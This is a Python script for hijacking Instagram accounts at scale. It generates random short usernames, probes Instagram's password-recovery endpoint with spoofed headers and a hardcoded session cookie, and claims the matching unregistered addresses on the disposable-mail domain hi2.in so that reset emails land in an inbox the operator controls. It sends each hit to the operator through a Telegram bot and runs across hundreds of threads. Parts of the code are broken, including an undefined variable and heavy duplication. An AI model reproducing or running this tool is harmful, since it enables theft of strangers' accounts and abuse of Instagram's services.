 import random
import os
from user_agent import generate_user_agent
from random import randrange,choice
from random import randrange,choice
import requests; import base64
from rich.console import Console
from rich.live import Live
import requests
from user_agent import generate_user_agent
from asmix import Instagram
import ethan
import os
import requests
from user_agent import generate_user_agent
from time import time
from hashlib import md5
from random import choice
from concurrent.futures import ThreadPoolExecutor
from cfonts import render, say
from requests import post as pp
from user_agent import generate_user_agent as gg
from random import choice as cc
from random import randrange as rr
import random
import base64
import re
import ethan
import sys
from asmix import Instagram
import random
import string
import json
import requests
from threading import Thread
from rich.console import Console
Con = Console()
Ex = 0
b = random.randint(5,208)
bo = f'\x1b[38;5;{b}m'
ED='\x1b[38;5;208m'
BLUE = '\033[94m'
Z = '\033[1;31m' #احمر
S = '\033[1;33m' #اصفر
O = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
M = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
B="\033[1;30m" # Black
R="\033[1;31m" # Red
G="\033[1;32m" # Green
Y="\033[1;33m" # Yellow
Bl="\033[1;34m" # Blue
P="\033[1;35m" # Purple
C="\033[1;36m" # Cyan
W="\033[1;37m" # White
Z = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
Y = '\033[1;34m' #ازرق فاتح
M = '\x1b[1;37m'#ابیض
U = '\x1b[1;37m'#ابیض
X = '\033[1;33m' #اصفر
Y = '\033[1;34m' #ازرق فاتح
M = '\x1b[1;37m'#ابیض
S = '\033[1;33m'
R = '\033[1;31m' #احمر
F = '\033[2;32m' #اخضر
C = "\033[1;97m" #ابيض
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح.

jjk=ethan.logo('FFNZZ')
print(jjk)
token=input(f'{X}enter token :')
print('')
ID=input(f'{R}enter id :')
import os
hit=0
badig=0
badmil=0
goodig=0
bad_user=0
def info(email):
	users = email.split("@")[0]
	rest=Instagram.rest(users)
	ff=f'''
\ NEW IG HITS / 
----------------------------------
[user] = @{users}
[email] = {email}
[rest] = {rest}
----------------------------------
by @FFNZZ
	'''
	requests.get(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
def rest(user):
  global bad_user
  global goodig
  global hit
  global badig
  global badmil
  try:
    email=user+'@hi2.in'
    headers = {
    	                        'X-Pigeon-Session-Id': '50cc6861-7036-43b4-802e-fb4282799c60',
        'X-Pigeon-Rawclienttime': '1700251574.982',
        'X-IG-Connection-Speed': '-1kbps',
        'X-IG-Bandwidth-Speed-KBPS': '-1.000',
        'X-IG-Bandwidth-TotalBytes-B': '0',
        'X-IG-Bandwidth-TotalTime-MS': '0',
        'X-Bloks-Version-Id': '009f03b18280bb343b0862d663f31ac80c5fb30dfae9e273e43c63f13a9f31c0',
        'X-IG-Connection-Type': 'WIFI',
        'X-IG-Capabilities': '3brTvw==',
        'X-IG-App-ID': '567067343352427',
        'User-Agent': 'Instagram 100.0.0.17.129 Android (29/10; 420dpi; 1080x2129; samsung; SM-M205F; m20lte; exynos7904; en_GB; 161478664)',
        'Accept-Language': 'en-GB, en-US',
        'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'Accept-Encoding': 'gzip, deflate',
        'Host': 'i.instagram.com',
        'X-FB-HTTP-Engine': 'Liger',
        'Connection': 'keep-alive',
        'Content-Length': '356',
    }
  

        
        
        
        
    data = {
        f'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.{"_csrftoken":"9y3N5kLqzialQA7z96AMiyAKLMBWpqVj","adid":"{Lol}","guid":"{Gio}","device_id":"{DvD}","query":"' + email + '"}',
        'ig_sig_key_version': '4',
    }



            	
    respon = requests.post('https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/', headers=headers, data=data).text
    tt=(f''' 
========================================================
    {F}hits :{hit}   
    
    {R}badmail :{badmil}    
    
    {ED}user:@{user}  
    
    {bo} badig :{badig} 
    
           {bo} bad user : {bad_user}
    
           good ig :{goodig}
{M}========================================================
    ''')
    os.system('clear')
    print(tt)
   
         
        
    	
    if '"status":"ok"' in respon:
      		goodig+=1
      		name = email.split("@")[0]
      		domen = email.split("@")[1]
      		headers = {
    'User-Agent': "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Mobile Safari/537.36",
  'Accept': "application/json, text/plain, */*",  
  'authorization': "Basic bnVsbA==",  
  'origin': "https://hi2.in", 
  'accept-language': "en-US",
  'priority': "u=1, i,",  
}

	
	    		
      		response = requests.post("https://hi2.in/api/custom", data={'domain': "@" + domen,'prefix': name}, headers=headers)
      		data=response.text
      		if "error" in data:
      			badmil+=1
      		elif "hash" in data or "expiry" in data:
      			hit+=1
      			info(email)
      		
      		
    else:
    	badig+=1 
  
  except:
  	os.system('clear')
  	bad_user+=1
  	tt=(f''' 
========================================================
    {F}hits :{hit}   
    
    {R}badmail :{badmil}    
    
    {ED}user:@{user}  
    
    {bo} badig :{badig} 
    
    {bo} bad user : {bad_user}

               good ig :{goodig}    
{M}========================================================
    ''')
      	
  	print(tt)
 
def qcq():
  memo = random.randint(100, 300)
  O = f'\x1b[38;5;{memo}m'
  while True:
  	ur="".join(random.choice('qwertyuiopl0987654321_kjhgfdsamnbvcxz')for x in range(4))
  	u="".join(random.choice('poiuytr_ew0987654321qlkjhgfdsamnbvcxz')for x in range(5))
  	end=[ur,u]
  	user=random.choice(end)
  	rest(user)
def qqq():
    global Ex
    try:
        
        LsD = ''.join(random.choices(string.ascii_letters + string.digits, k=4))
       
        UseriD = str(random.randrange(900000,uid))
        
        variables = json.dumps({"id": UseriD, "render_surface": "PROFILE"})
        data = {"lsd": LsD, "variables": variables, "doc_id": "25618261841150840"}
        
        response = requests.post("https://www.instagram.com/api/graphql", headers={"X-FB-LSD": LsD}, data=data)
        
        
        user= response.json()['data']['user']['username']
        rest(user)
        
    
        return username
    except Exception as e:
    	return None



def ExUsers():
    for _ in range(1000):  
        qcq()

threads = []
for _ in range(100): 
    thread = Thread(target=ExUsers)
    thread.start()
    threads.append(thread)

for thread in threads:
    thread.join()
from threading import Thread
for _ in range(100):
  Thread(target=qqq).start()

